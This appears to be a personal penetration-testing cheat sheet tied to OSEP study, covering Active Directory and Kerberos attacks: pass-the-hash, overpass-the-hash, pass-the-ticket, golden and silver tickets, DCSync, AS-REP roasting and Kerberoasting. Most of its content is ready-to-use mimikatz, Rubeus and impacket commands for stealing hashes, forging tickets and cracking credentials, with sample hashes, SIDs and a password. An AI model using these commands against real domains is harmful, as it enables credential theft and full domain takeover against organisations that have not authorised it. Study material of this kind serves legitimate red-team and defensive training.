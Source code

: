 (Although the techniques explained here aren't teached in the OSEP, I found them pretty useful during my OSEP exam & labs, learning and researching
about them also helped me improve my knowlegde of Active Directory which is always useful)

**PASS THE HASH:**

The pass-the-hash techinque allows an attacker to authenticate to remote systems using the user NTLM hash(the static part, also known as NT hash). 
Note that the pass-the-hash technique only applies to Windows/NTLM authentication and not to Kerberos authentication.

There are lots of tools that support pass-the-hash. For example all the impacket suite supports it, xfreerdp also does, mimikatz also does, and the
list keeps going on...

Passing the hash from bare bones *nix systems using [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit/tree/master).

**OVERPASS THE HASH:**

Overpass the hash, presented in the [blackhat](https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It-wp.pdf). This technique allows an attacker to get a TGT using only the NTLM hash of the user. 

We can for example use overpass the hash through [mimikatz](https://github.com/gentilkiwi/mimikatz):

```
1. C:\> .\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt

2. mimikatz # sekurlsa::pth /user:user1 /domain:contoso.com /ntlm:<ntlm_hash> /run:PowerShell.exe
```

Once we have the new powershell session, we can authenticate to any AD resource to obtain a TGT, here's an example:

```
PS C:\> klist  -> no TGT for the user1

PS C:\> net use \\dc01.contoso.com

PS C:\> klist -> TGT for the user1
```

Alternatively, you can use this tools from Linux to get a TGT in a .ccache file:

```
~# impacket-getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>

~# impacket-getTGT.py <domain_name>/<user_name> -aesKey <aes_key>

~# impacket-python getTGT.py <domain_name>/<user_name>:[password]
```

**PASS THE TICKET:**

The pass-the-ticket technique abuses the TGS, which can be exported and injected somewhere else.

```
Listing tickets:

1. mimikatz # kerberos::list

2. C:\> .\Rubeus.exe dump

Exporting all tickets(TGTs and TGSs):

1. mimikatz # sekurlsa::tickets /export   

2. C:\> [IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<bas64_ticket>")) -> from base64 to .kirbi

Injecting some ticket into memory:

1. mimikatz # kerberos::ptt 'C:\ticket.kirbi'

2. C:\> .\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

*When trying to export a usable TGT for our current user, this requieres elevation in the system*

However with the "tgtdeleg" Rubeus function we can aviod the elevation and obtain a fully working TGT for our current user:

```
C:\> Rubeus.exe tgtdeleg
```

Although TGTs on Windows are exported as .kirbi, and on Linux as .ccache. We can use the impacket [ticketConverter.py](https://github.com/fortra/impacket/blob/master/examples/ticketConverter.py) to convert a .kirbi to a .ccache, or a .ccache to a .kirbi.

```
From .ccache to .kirbi
~# python ticket_converter.py trike.ccache trike.kirbi

From .kirbi to .ccache
~# python ticket_converter.py trike.kirbi trike.ccache
```

Alternatively you can use this metasploit module [auxiliary/admin/kerberos/ticket_converter](https://docs.metasploit.com/docs/pentesting/active-directory/kerberos/ticket_converter.html).

**GOLDEN TICKETS:**

With golden tickets, we can create TGTs for any domain resource that we want, and stating the groups we want. However to execute this attack we need the "krbtgt" domain account NTLM hash/password. Note that this attack is mostly used when you are already Domain Admin rather than trying to become one.

Now, armed with the "krbtgt" NTLM hash, we can proceed and craft our golden ticket with mimikatz:

```
mimikatz # kerberos::purge

mimikatz # kerberos::golden /user:trike /domain:contoso.com /sid:<our_sid_without_the_rid_part> /krbtgt:<ntlm_hash_of_krbtgt> /ptt
(mimikatz by default will assing us the RID of 500, however we can set a custom one via the "/id" parameter)

mimikatz # misc::cmd -> launcing a new cmd with our new TGT
```

As an alternative we can create golden tickets from Linux using [impacket-ticketer](https://github.com/fortra/impacket/blob/master/examples/ticketer.py)

```
~# impacket-ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

~# impacket-ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>
```
**SILVER TICKETS:**

This technique consists of crafting a TGS with the password hash of the SPN. The interesting part about this TGS, is that we can modify our permissions(such as user id or group id) stating that we are local administrator/domain admin/etc on the server where the SPN we have compromised is running its service. 

In our example, our compromimsed SPN will we "svc_mssql", its NTLM password hash will be this "1BF1DE6AEDB12AE1E548210EDBF3511E", its FQDN will be "MSSQL/server.contoso.com" and the SID of the trike user will be "S-1-5-21-2602875597-2787548311-2599479668-1204"

```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK

mimikatz # kerberos::list

mimikatz # kerberos::golden /user:trike /domain:contoso.com /sid:S-1-5-21-2602875597-2787548311-2599479668 /target:server.contoso.com /service:MSSQL /rc4:1BF1DE6AEDB12AE1E548210EDBF3511E /ptt
```
(note that in the sid parameter we didn't specify the RID of the trike user, since mimikatz will automatically set our RID to 500 which equals to both local administrator and domain admin)

Alternatively we can use impacket-ticketer from Linux to create silver tickets:

```
~# impacket-ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

~# impacket-ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>
```

**DOMAIN CONTROLLER SYNCHRONIZATION:**

This is an alternative way to get any domain user hash without dumping the entire NTDS.dit database. For this reason DcSync is way stealthier. 

This attack works because the domain controller recieving the request doesn't verify that the request came from a know domain controller, only that the SID has the appropiate permissions to do so. For this reason, if a domain admin sends a request to a domain controller, this will likely succeed. 

We can perform this attack with mimikatz:

```
mimikatz # lsadump::dcsync /user:Administrator

mimikatz # lsadump::dcsync /user:krbtgt
```

**AS-REP ROASTING ATTACK:**

This attack works for domain users that have the "DONT_REQ_PREAUTH" property *useraccountcontrol* set. 
```
# From Rubeus
C:\> .\Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>

# Check ASREPRoast for all domain users (credentials required)
~# impacket-GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]>

# Check ASREPRoast for a list of users (no credentials required)
~# impacket-GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]>

# Now we will attempt to crack the hashes obtained
~# john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

**KERBEROASTING ATTACK:**

The essence of this attack is to crack the encrypted key which was used to generate the TGS from where we extract the encrypted key to crack.

You need valid domain credentials to perform this attack.

```
~# impacket-getuserspns -request contoso.com/trike:'DevT$st34'@192.168.1.1

msf > use auxiliary/gather/get_user_spns
```
For Windows exploitation(manual and automatic) review this link: https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast
